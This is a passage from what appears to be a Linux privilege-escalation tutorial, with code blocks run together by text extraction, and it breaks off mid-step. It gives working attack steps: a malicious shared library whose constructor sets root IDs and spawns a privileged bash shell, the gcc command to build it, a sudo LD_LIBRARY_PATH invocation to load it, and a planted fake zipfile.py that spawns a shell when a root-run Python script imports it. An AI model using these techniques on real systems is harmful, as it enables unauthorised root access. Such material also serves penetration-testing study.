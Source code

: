     ```
    #include <stdio.h>#include <stdlib.h>//lib.c filestatic void hijack() __attribute__((constructor));void hijack() {        unsetenv("LD_LIBRARY_PATH");        setresuid(0,0,0);        system("/bin/bash -p");}
    ```
*   **Compiling new malicous lib.so**

    ```
    cd /newpathgcc -o /tmp/lib.so -shared -fPIC /newpath/lib.c
    ```
*   **spawn a shell**

    ```
    sudo LD_LIBRARY_PATH=/tmp executable
    ```

#### **4- Python Module Hijacking Exploitation**

![](https://0xbugatti.io/_astro/09Untitled3.Qs_XYhrf_RS8s.webp)

If We Found a sudo right command or crontab or bashscript called rotexec run as a root like

```
python2 /home/sofs/script/vip.py
```

and you can not write on it

as explaining on image

*   **we will go to the file directory and Know modules called by python code**

    ```
    cd /home/sofs/script/
    ```

    ```
    cat vip.py
    ```

    ```
    #vip.pyimport osimport zipfiledef zipdir(path, ziph):    for root, dirs, files in os.walk(path):        for file in files:            ziph.write(os.path.join(root, file))if __name__ == '__main__':    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)    zipdir('/var/www/html', zipf)    zipf.close()
    ```
*   **we will make new file with same name of called modules in the same Directory**

    ```
    nano zipfile.py
    ```

    ```
    import ptypty.spawn("/bin/sh")
    ```
*   **then run your command**
